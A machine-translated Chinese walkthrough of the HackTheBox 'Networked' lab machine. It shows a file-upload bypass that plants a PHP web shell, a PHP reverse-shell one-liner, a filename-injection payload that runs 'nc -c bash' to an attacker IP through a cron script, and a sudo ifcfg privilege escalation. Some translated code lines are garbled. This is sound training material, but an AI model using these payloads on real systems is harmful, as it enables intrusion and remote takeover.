# 黑客盒子——网络写作(OSCP 喜欢)

> 原文：<https://infosecwriteups.com/hackthebox-networked-writeup-3d0a1276ad3c?source=collection_archive---------4----------------------->


联网是一个中等水平的 OSCP，就像黑客盒子上的 linux 机器。具有挑战性的部分是读取代码以便利用它来获取 shell，还有特权提升部分，这是不寻常和不常见的。

## 列举



我们发现端口 22 和 80 是开放的。这是默认页面



让我们使用目录搜索在端口 80 托管的网页中查找目录。我们找到/上传和/备份



让我们访问备份



好像是压缩的焦油文件。我们通过运行 file 命令来确认这一点。这是一个 POSIX tar 归档文件



让谷歌如何解压缩焦油文件，我们发现这在 stackoverflow



命令→**tar xvf filename.tar**

一旦你打开备份文件，你会发现 3-4 个文件夹，主要是页面的源代码。让我们参观 photos.php



让我们访问 upload.php，看起来我们可以在这里上传文件，并希望做一些文件上传旁路和执行命令。


在上传任何恶意的东西之前，我试着上传一个简单的图像文件



当我去 photos.php 的时候，我终于可以看到我上传的照片了



我右击图片，在一个新的标签中打开它，并且能够找到它的位置。好像是上传到了/uploads 文件夹



让我们尝试一些文件上传旁路！。我尝试了许多方法，其中一个是用. png.php 扩展名保存反向 shell，欺骗 web 服务器，使其认为这是一个 png(图像)文件，但随后以 php 执行，因为它以。服务器端编程语言（Professional Hypertext Preprocessor 的缩写）



额外提示:如果你阅读 upload.php 文件的内容，你可以看到哪些扩展名是允许的。



不管怎样，让我们截取 burp 中的请求，并将请求发送给中继器。在请求的主体中，您将看到一些 grabage 值，这是图像的数据。我们不会删除它，因为它欺骗目标认为我们实际上是在上传图像。现在转到最后一行，添加一段 php 代码。

**<？php 系统($ _ GET[' cmd '])；？>**



您可以看到我们的文件已成功上传



除此之外，确保用扩展名. png.php 保存文件名，如您在第 15 行看到的。这将作为 php 执行我们的文件。



见第 15 行 filename=poison.php.jpg

让我们访问 photos.php，右键单击我们的图像，并在一个新的标签中打开它



我们能够看到图像中的数据。这些是垃圾值



额外提示:我们本可以避免这些垃圾。我们可以不在 php 代码前保存图像数据，而是直接放入任何像 GIF87a 这样的神奇字节，让目标误以为我们在上传 GIF 文件。我会给你看一个我的意思的图像



GIF87a 是 GIF 的神奇字节。幻字节是帮助系统识别文件类型的字节。只要谷歌 gif 的魔法字节

在 url 中，我们使用？cmd=whoami 这将运行 whoami 命令



现在向下滚动，您会看到 apache，它以蓝色突出显示。所以我们是 apache 用户。



让我们把 whoami 命令替换成更恶意的东西，比如 php 反向 shell



**PHP-r ' $ sock = fsockopen(" 10 . 0 . 0 . 1 "，1234)；exec("/bin/sh-I<&3>&3 2>&3 ")；'**

确保对它进行 URL 编码！(否则它不会工作)



？cmd=<paste your="" url="" encoded="" php="" reverse="" shell="" here=""></paste>



我们终于得到了一个贝壳。顺便说一下，我通过 url 做的事情也可以通过 burpsuite 来完成。



让我们将 linpeas 传输到目标



## 权限提升

**概述-** 现在这部分要求你知道如何阅读代码。不幸的是，我没有多少阅读 php 代码的经验。我强烈建议你参考 ippsec 的视频。我将为这一部分提供的解释摘自 Rana khalil 的文章，其中有很好的解释。(Credits-[https://ranakhalil 101 . medium . com/hack-the-box-networked-writeup-w-o-metasploit-62 DAA 1146 b9b](https://ranakhalil101.medium.com/hack-the-box-networked-writeup-w-o-metasploit-62daa1146b9b))

## 阿帕奇>古利

*user.txt* 标志位于用户 *guly* 的主目录中。所以我们要么将我们的特权升级到红色的，要么升级到根。

我运行了 *LinEnum.sh* 和 *pspy64* 程序，但没有发现任何异常。我注意到在 guly 的主目录中有一个 php 脚本和一个 crontab 文件。我们对它们都有读取权限。

```
bash-4.2$ ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```

查看 crontab.guly 的内容。

```
bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
```

它每 3 分钟运行一次*文件 check_attack.php* 脚本。如果你不熟悉 crontab 格式，请参考下面的[链接](https://www.netiq.com/documentation/cloud-manager-2-5/ncm-reference/data/bexyssf.html)。

我们来查看一下 *check_attack.php* 文件。

```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";$files = array();
$files = preg_grep('/^([^.])/', scandir($path));foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";#print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}?>
```

该脚本接收/var/www/html/uploads 目录中的所有文件，并从 lib.php 文件中对其运行 *getnameCheck()* 和 *check_ip()* 函数。

```
function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}
```

*getnameCheck()* 函数简单地将文件的名称与扩展名分开。函数的作用是:检查文件名是否是一个有效的 ip 地址。如果不是，它将返回 false，这将触发 *check_attack.php* 文件中的攻击组件。

```
if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
```

这会将文件的路径传递给 exec()函数并删除它。当然，没有对 exec()函数的输入进行验证，因此我们可以滥用它来提升特权。

转到 **/var/www/html/uploads** 目录并创建以下文件。

```
touch '; nc -c bash 10.10.14.12 3333'
```

“；”将结束 exec()函数中的“rm”命令，并运行 nc 命令，这将向我们的机器发送一个反向 shell。

设置一个侦听器来接收反向 shell。

```
nc -nlvp 3333
```

等待 cron 作业运行，我们得到一个 shell！



将 shell 转换为完全交互式的 shell，并获取 user.txt 标志。



## 古利> Root (ifcfg 权限提升)

我们需要将我们的权限提升到 root。我下载了 *LinEnum* 脚本并运行它。看起来我们可以在没有密码的情况下以 root 用户身份运行下面的文件。

```
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh[+] Possible sudo pwnage!
/usr/local/sbin/changename.sh
```

查看文件的权限。

```
[guly@networked ~]$ ls -la /usr/local/sbin | grep changename.sh
-rwxr-xr-x   1 root root 422 Jul  8  2019 changename.sh
```

我们只有文件的读取和执行权限。让我们来查看文件的内容。

```
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoFregexp="^[a-zA-Z0-9_\ /-]+$"for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

它接受文件 *ifcfg-guly* 的内容，并对输入进行简单的正则表达式检查。让我们查看该文件的权限。

```
[guly@networked ~]$ ls -la /etc/sysconfig/network-scripts/ | grep ifcfg-guly
-rw-r--r--  1 root root   114 Jan 14 04:09 ifcfg-guly
```

我们只能看。我们来看看文件。

```
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih
```

该名称被分配了一个系统命令，因此我们可以使用它来提升权限。经过一番谷歌搜索，我发现了这个[错误报告](https://bugzilla.redhat.com/show_bug.cgi?id=1697473)，报告称 NAME 属性上不正确的空格过滤会导致代码执行。由于我们可以使用 sudo 权限运行 changename.sh 脚本，它将提示我们输入名称值，并且由于它没有得到正确的验证，我们可以使用 root 权限获得一个 shell！这里有更多关于 ifcfg 特权提升的资源。这是一个非常隐晦的方法。

